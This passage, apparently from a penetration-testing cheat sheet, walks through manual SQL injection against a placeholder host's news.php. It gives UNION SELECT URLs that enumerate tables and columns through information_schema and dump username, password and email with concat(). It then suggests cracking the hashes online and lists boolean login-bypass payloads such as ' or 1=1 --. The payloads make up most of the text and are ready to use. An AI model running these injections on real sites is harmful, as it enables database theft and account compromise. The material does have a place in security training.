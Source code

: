 The second table is displayed. for third table you put **limit 2,1**

```
http://$ip/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 2,1/*
```

Increment until you get some useful like **db\_admin, poll\_user, auth, auth\_user etc**...

To get the column names the method is the same. Here you use column\_name and information\_schema.columns the method is same as above so example would be

```
http://$ip/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 0,1/
```

The first column is displayed. the second one (you change **limit 0,1** to **limit 1,1**)

```
http://$ip/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 1,1/*
```

The second column is displayed, so increment until you get something like **username,user,login, password, pass, passwd etc.** If you want to display column names for specific table use this query. (where clause) let's say that you found table users:

```
http://$ip/news.php?id=5 union all select 1,column_name,3 from information_schema.columns where table_name='users'/*
```

Now you get displayed column name in table users. Just using **LIMIT** you can list all columns in table users. Note that this won't work if the magic quotes is ON. let's say that you found columns user, pass and email. Now to complete query to put them all together. For that you use **concat()**.

```
http://$ip/news.php?id=5 union all select 1,concat(user,0x3a,pass,0x3a,email) from users/*
```

What you get is user:pass:email from table users.

```
admin:hash:whatever@blabla.com
```

The passwords are in hash format so you need to crack the hash. Try [https://crackstation.net/](https://crackstation.net)

* Test error based sending **' " ;** and look for errors.
* Test for boolean based sending **' or '1'='1** or **or 1=1** and look for differences.
*   Other boolean payloads:

    ```
    2' or '1'='1
    'or'a'='a
    ' or 1=1 --
    a' or 1=1 --
    " or 1=1 --
    a" or 1=1 --
    ' or 1=1 #
    " or 1=1 #
    or 1=1 --
    ' or 'x'='x
    " or "x"="x
    ') or ('x'='x
    ") or ("x"="x
    ' or username LIKE '%admin%
    ```
*   Payloads, where username is 'admin':

